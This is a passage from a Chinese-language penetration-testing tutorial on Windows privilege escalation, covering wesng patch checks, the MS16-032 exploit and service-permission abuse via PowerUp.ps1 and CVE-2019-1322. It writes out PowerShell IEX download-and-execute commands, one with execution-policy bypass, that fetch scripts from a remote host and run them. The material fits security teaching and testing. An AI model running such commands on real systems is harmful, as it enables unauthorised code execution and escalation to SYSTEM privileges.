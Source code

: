 1. 将 wesng 下载到本地主机上，先升级最新的漏洞数据库。

python wes.py --update

![](https://image.3001.net/images/20210205/1612508794_601cee7a47cc1cb49a39a.gif!small)

2. 将目标机器的 systeminfo 命令的结果输出并保存，使用 wesng 进行检查。

![](https://image.3001.net/images/20210205/1612508804_601cee840f5557c037ab9.gif!small)

发现只安装 3 个补丁，可以查看输出结果来找对应的漏洞利用代码。

![](https://image.3001.net/images/20210205/1612508814_601cee8e2503c287c7ee2.gif!small)

3. 下载 https://www.exploit-db.com/exploits/39719 里面的漏洞利用

使用 powershell 下载漏洞利用代码并执行

```
Powershell IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X:8000/ms16-032.ps1');Invoke-MS16-032


```

![](https://image.3001.net/images/20210205/1612508825_601cee995f1d61c2a9d3f.gif!small)

错误的服务权限配置
---------

### 漏洞介绍

Microsoft Windows 服务（即以前的 NT 服务）能够创建可长时间运行的可执行应用程序。这些服务可以在计算机启动时自动启动，可以暂停和重新启动而且不显示任何用户界面。这种服务非常适合在服务器上使用，或任何时候，为了不影响在同一台计算机上工作的其他用户，需要长时间运行功能时使用。还可以在不同登录用户的特定用户帐户或默认计算机帐户的安全上下文中运行服务。Windows 服务 (Windows Services) 通常使用本地系统账户启动。如果我们拥有可以修改服务配置权限的话，可以将服务启动的二进制文件替换成恶意的二进制文件，重新启动服务后执行恶意的二进制文件，可以获取到 system 权限。

### 漏洞复现

1. 首先需要在找到存在配置权限错误的服务，这里推荐大家使用 powerup.ps1，

```
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc


```

powerup 是一个非常好用的 windows 提权辅助脚本，可以检查各种服务滥用，dll 劫持，启动项等，来枚举系统上常见的提权方式。

接下来我们以 CVE-2019-1322 进行演示，Update Orchestrator 服务的运行方式为 NT AUTHORITY\SYSTEM，并且在 Windows 10 和 Windows Server 2019 上已默认启用。首先使用 powershell 加载 powerup.ps1，需要在 powerup.ps1 结尾中加入 InvokeAllchecks 或者使用 powershell 执行时加载，执行如下代码：

```
Powershell -exec bypass IEX(new-object Net.webclient).downloadstring('http://192.168.25.31:8000/PowerUp.ps1'); InvokeAllchecks


```
